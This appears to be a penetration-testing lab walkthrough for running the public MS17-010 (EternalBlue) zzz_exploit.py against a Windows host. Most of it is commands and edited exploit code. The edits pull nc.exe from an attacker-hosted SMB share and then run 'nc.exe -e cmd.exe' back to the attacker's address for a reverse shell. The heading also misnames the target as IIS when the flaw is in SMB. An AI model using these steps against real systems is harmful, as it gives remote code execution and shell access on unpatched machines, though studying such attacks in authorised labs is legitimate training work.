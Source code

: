 ### IIS 5.0 

In order to exploit an IIS 5.0 server the zzz_exploit.py script that is to be found here: [MS17-010](https://github.com/worawit/MS17-010) is the best choice, first of all we need to create a virtual environment with python as this script use impacket that must be installed with python2, for this reason we need to follow this steps to create it:

1.- Specify the python version
```python
virtualenv -p /usr/bin/python2.7 venv
```

2.- Activate the virtual environment:
```python
source venv/bin/activate
```

3.- Install the impacket repository:
```python
pip install impacket
```

In order to execute the script, the following command is needed:
```python
python2 zzz_exploit.py 10.11.1.227
```

By default, the exploit will only create a file under C:\ called pwned.txt, as shown in the following lines of code of the exploit:
```python
def smb_pwn(conn, arch):
smbConn = conn.get_smbconnection()
print('creating file c:\\pwned.txt on the target')
tid2 = smbConn.connectTree('C$')
fid2 = smbConn.createFile(tid2, '/pwned.txt')
smbConn.closeFile(tid2, fid2)
smbConn.disconnectTree(tid2)

#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
# Note: there are many methods to get shell over SMB admin session
# a simple method to get shell (but easily to be detected by AV) is
# executing binary generated by "msfvenom -f exe-service ..."
```

If we need a reverse shell on the server we first need to upload a nc.exe binary, the easiest way to do it is using an smb share folder with impacket on Kali:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```

A slight modification must be made to copy the file on the victim machine, by copying the file from the SMB Shared Folder to the victim machine:

```bash
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
        service_exec(conn, r'cmd /c copy \\192.168.119.241\shareFolder\nc.exe nc.exe')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

Finally, we can bring up a nc connection as normal as follows:

```bash
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#        service_exec(conn, r'cmd /c copy \\192.168.119.241\shareFolder\nc.exe nc.exe')
        service_exec(conn, r'cmd /c nc.exe -e cmd.exe 192.168.119.241 1234')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

